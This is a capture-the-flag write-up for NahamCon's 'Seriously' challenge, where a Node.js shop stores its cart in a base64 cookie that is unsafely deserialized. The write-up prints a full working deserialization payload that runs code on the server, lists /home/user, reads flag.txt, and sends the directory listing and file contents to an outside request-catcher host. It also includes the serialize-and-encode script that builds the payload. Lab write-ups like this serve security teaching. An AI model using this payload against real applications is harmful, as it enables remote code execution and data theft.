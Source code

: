 # NahamCon CTF - Seriously

So we have five "plant stores" and we need to hack it to get the flag.
At first I thought the challenge was somehow related to escalate privileges among them.

There are two hints here:
* The message on the checkout option, saying it was prohibited due to security issues.
* The name of the game itself ("seriously"), as I found later.

I tried all the stores to see if the checkout was open on any of them, but they were not (and stores 3 and 4 were down).

The **/cart** URL used a cookie called also **cart**, to store the items, encoded in base64:

**Base64:**

```
eyJpdGVtcyI6eyIwIjp7Im5hbWUiOiJIYXdvcnRoaW9wc2lzIGF0dGVudWF0YSIsInByaWNlIjoxOS45OSwiY291bnQiOjF9LCIyIjp7Im5hbWUiOiJEcmFjYWVuYSB0cmlmYXNjaWF0YSIsInByaWNlIjoxNC45OSwiY291bnQiOjF9fX0K`
```

**Decoded:** 

```
{"items":{"0":{"name":"Haworthiopsis attenuata","price":19.99,"count":1},"2":{"name":"Dracaena trifasciata","price":14.99,"count":1}}}
````
OK, using a 404 error, we see it's a node application, so I found a Javascript deserialization vulnerability.

### First Try: Shell

Using a sample payload online, I tried to call OS commands.
The snippet bellow is the same structure of the cart, but I changed the name to an evil function.

```
evil = {
  items: {
    '0': { name: 'Haworthiopsis attenuata', price: 19.99, count: 1 },
    '2': { name: 'Dracaena trifasciata', price: 14.99, count: 1 },
    '3': { name: function(){
            require('child_process').exec('ls / >> nep10.txt', function(error, stdout, stderr) { return 'Neptunian'; });
        }, 
        price: 14.99, count: 1,  },
  }
}**()**
```

And the plan is to serialize the evil object to send to the server.

Something about the **()** above: if you put the parentheses in this constructor, it will run the function, and the serialized version will get only the result.
I had to put the **()** it after serializing for it to run only after deserialization.
Automated the replace to test faster.

And testing:
```
let buff = new Buffer.from(serialize.serialize(evil));

console.log('Evil Serialized:');
// buff2 = buff.toString('ascii');

// Had to replace here to be automatic.
// If I put the "()" and the end of the function, it will run and serialize the result!!
// But if I put only in the serialized version, it will run only in the server, just after deserializing!
// This way, I can work with a complete code, test the payload locally (below) and send it ready to the server.
buff2 = buff.toString('ascii').replace('}","price', '}()","price');
console.log(buff2 + '\n\n');

console.log('Evil Base64');
let base64data = Buffer.from(buff2).toString('base64');
console.log(base64data + '\n\n');

console.log('Evil URL Encoded:');
let payload = urlencode(base64data);
console.log(payload + '\n\n');
```

Now I had a payload.
It worked locally, but I couldnt make the exec command work (tried with curl instead of **ls**).

### The Real Deal: Owning with Javascript

I dont really need a shell when I can run Javascript code on the server.
So lets change the Evil object.

The plan is to send result of the commands to **requestcatcher**.
The error hints that the application is in the **/home/user**, so the plan is to list the files and see if the flag is there.

```
// Kept the basic structure of the cart
// First: listed files on /home/user dir
// After: get flag in base64 format to send (owned!)
evil2 = {
  items: {
    '0': { name: 'Haworthiopsis attenuata', price: 19.99, count: 1 },
    '2': { name: 'Dracaena trifasciata', price: 14.99, count: 1 },
    '3': { name: function(){

            mysite = 'https://neptunian147.requestcatcher.com';

            require('request')(mysite - '/working', function (error, response, body) { console.log(body); });

            var fs = require('fs');
            const path = require('path');
            //joining path of directory 
            // require('path').dirname(require.main.filename)''; //__dirname
            const directoryPath =  '/home/user';
            //passsing directoryPath and callback function
            fs.readdir(directoryPath, function (err, files) {
                //handling error
                if (err) {
                    return console.log('Unable to scan directory: ' + err);
                    require('request')(mysite + '/shitt-happens', function (error, response, body) { console.log(body); });
                } 

                //listing all files using forEach
                files.forEach(function (file) {
                    // Do whatever you want to do with the file
                    console.log(file); 

                    require('request')(mysite + '/store2?file=' + file, function (error, response, body) { console.log(body); });
                });
            });},price: 14.99, count: 1,  },
  }
};
```

And after that:

![Request Catcher - Round 1](https://github.com/Neptunians/nahamcon-ctf/blob/master/seriously/request_catcher_screenshot_1.png)

So, let's include a block to get the flag content and send it, using base64 to avoid any problems:

```
var fs = require('fs');
fs.readFile('/home/user/flag.txt', function(err, data) {
    let base64flag = Buffer.from(data).toString('base64');

    require('request')(mysite + '/working?flag=' + base64flag, function (error, response, body) { console.log(body); });
});
```

And something happens:

![Request Catcher - Round 1](https://github.com/Neptunians/nahamcon-ctf/blob/master/seriously/request_catcher_screenshot_1.png)

Decodes to:

```
$ echo "ZmxhZ3tzZXJpb3VzbHlfZGVzZXJpYWxpemF0aW9uX3dpdGhfcGxhbnRzfQo=" | base64 -d
flag{seriously_deserialization_with_plants}
```

Owned!

```
### Final Payload

evil2 = {
  items: {
    '0': { name: 'Haworthiopsis attenuata', price: 19.99, count: 1 },
    '2': { name: 'Dracaena trifasciata', price: 14.99, count: 1 },
    '3': { name: function(){

            mysite = 'https://neptunian147.requestcatcher.com';

            require('request')(mysite - '/working', function (error, response, body) { console.log(body); });

            var fs = require('fs');
            fs.readFile('/home/user/flag.txt', function(err, data) {
                let base64flag = Buffer.from(data).toString('base64');

                require('request')(mysite + '/working?flag=' + base64flag, function (error, response, body) { console.log(body); });
              });

            const path = require('path');
            //joining path of directory 
            // require('path').dirname(require.main.filename)''; //__dirname
            const directoryPath =  '/home/user';
            //passsing directoryPath and callback function
            fs.readdir(directoryPath, function (err, files) {
                //handling error
                if (err) {
                    return console.log('Unable to scan directory: ' + err);
                    require('request')(mysite + '/shitt-happens', function (error, response, body) { console.log(body); });
                } 

                //listing all files using forEach
                files.forEach(function (file) {
                    // Do whatever you want to do with the file
                    console.log(file); 

                    require('request')(mysite + '/store2?file=' + file, function (error, response, body) { console.log(body); });
                });
            });},price: 14.99, count: 1,  },
  }
};

// Lets serialize the payload
let buff = new Buffer.from(serialize.serialize(evil2));

console.log('Evil Serialized:');
// buff2 = buff.toString('ascii');

// Had to replace here to be automatic.
// If I put the "()" and the end of the function, it will run and serialize the result!!
// But if I put only in the serialized version, it will run only in the server, just after deserializing!
// This way, I can work with a complete code, test the payload locally (below) and send it ready to the server.
buff2 = buff.toString('ascii').replace('}","price', '}()","price');
console.log(buff2 + '\n\n');

console.log('Evil Base64');
let base64data = Buffer.from(buff2).toString('base64');
console.log(base64data + '\n\n');

console.log('Evil URL Encoded:');
let payload = urlencode(base64data);
console.log(payload + '\n\n');
```